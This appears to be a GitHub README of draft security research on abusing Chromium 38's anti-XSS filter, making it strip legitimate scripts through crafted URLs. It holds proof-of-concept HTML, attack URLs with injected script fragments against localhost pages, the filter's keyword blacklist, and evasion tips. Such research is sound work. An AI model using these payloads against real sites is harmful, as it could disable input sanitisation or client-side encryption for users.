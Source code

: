 Exploiting the browser anti-XSS filter for fun and profit.
==========================================================
(First draft, with Chromium 38.0.2125.111)

Teaser :
--------

        <script>
            var e=eval;
            var eval=function(s){
                e(s.match(/\d+/g))
            }
        </script>

        <button onclick="eval(document.location.hash.substr(1))">
            Is it vulnerable ?
        </button>

Well, it sure shouldn't be vulnerable, right ? And still, it is !

Abstract
--------
Some browsers include anti-XSS filters... 
Some of thoses filters disable scripts found in the GET parameters of a request...
Some people try to bypass theses filters...

We won't. Here we'll see how to abuse theses filters for maximum profit, even when there is no XSS initially !

!!! (Chromium 38.0.2125.111)

Proofs of concept
-----------------
Story 1 :"You can safely export your password, it will be encrypted anyway (using the awesome base64)"

        <script>var a = 'secret' ;</script>
        <script>a=btoa(a);</script>
        <script>alert(a);</script>

"... Except with this URL"

        http://localhost/xss/cleartext.html#<script>a=btoa(a);


Story 2 : "You won't lose your work, it is saved automagically when you close the project"

        <a onclick="alert('saved !')" href="out">
            close this project
        </a>

"Except with this URL"

        http://localhost/xss/tags.html#onclick="alert('saved !')"


Story 3 : "Regexp sanitizing OP"

    <script>
        var e=eval;
        var eval=function(s){
            e(s.match(/\d+/g))
        }
    </script>

    <button onclick="eval(document.location.hash.substr(1))">
        Is it vulnerable ?
    </button>

"...what sanitizing ?" 
    
    http://localhost/xss/dom.html?%3Cscript%3E%0A%20%20%20%20var%20e%3Deval%3B%0A%20%20%20%20var%20eval%3Dfunction%28s%29%7B%0A%20%20%20%20%20%20%20%20e%28s.match%28/%5Cd%2B/g%29%29%0A%20%20%20%20%7D%0A#alert(1)

The filter
----------

Rules ?

    just being in the url is fine. No "real purpose" required
    starting or ending with <script

    all occurences removed

    between 2 <script , or inside a < > if there is a blacklisted keyword

    blank spaces sensitive

blacklist :

        onload
        onerror
        onmouseove
        onclick
        href="javascript:


Thoughts & tips
---------------

    differentiate 2 "black holes" using &
    Want to hide your attack from the server ? use # instead of ?

    Best case exploitation : we can remove any part of the legitimate script.
        it is not as good as execution, but still not bad !
        we're not there yet. not even close..

    Doesn't require any coding error from the dev. 
    Really, all it requires is about coding syntax, flow patterns etc... Tell me about weird !

    Main applications (speculation):

        disable sanitisation of inputs
            DOM-based XSS only, probably
        weaken client-side cryptography
            remove the seed init ? remove the encryption part ?
        unexpected app behavior


    From story 2, I guess there is a lot of fun stuff to do with angularJS apps ?
        well, nope. ng-X doesn't trigger..

Data
----
Filtered :

    http://localhost/xss/manip.php#p=<script>alert(1)</script>
    http://localhost/xss/manip.php#p=<script>alert(1)
    http://localhost/xss/manip.php#<script>alert(1)
    echo.php?p=<img onerror="test"/>
    echo.php?p=<img onerr="test"/>
    echo.php?p=<img on="javascript:test"/>

Not filtered :
    
    http://localhost/xss/manip.php?p=alert(1)
    manip.php?p=<script src="s.js"></script>
    echo.php?p=<img/>
    echo.php?p=<img a="test"/>
    echo.php?p=<img on="test"/>
    http://localhost/xss/cleartext.php#%3Cscript%3Ea=btoa(a);%0Aalert(a);%0A%3C/script%3E
    http://localhost/xss/cleartext.php#%0Aa=btoa(a);%0A%3C/script%3E

bug ?

    http://localhost/xss/incl.html#<script src="s.js"></script>
        console says it is blocked, but really it runs.. ??

Papers :
--------
    
    https://github.com/centime/AntiXSS/blob/master/Abusing_IE8s_XSS_Filters.pdf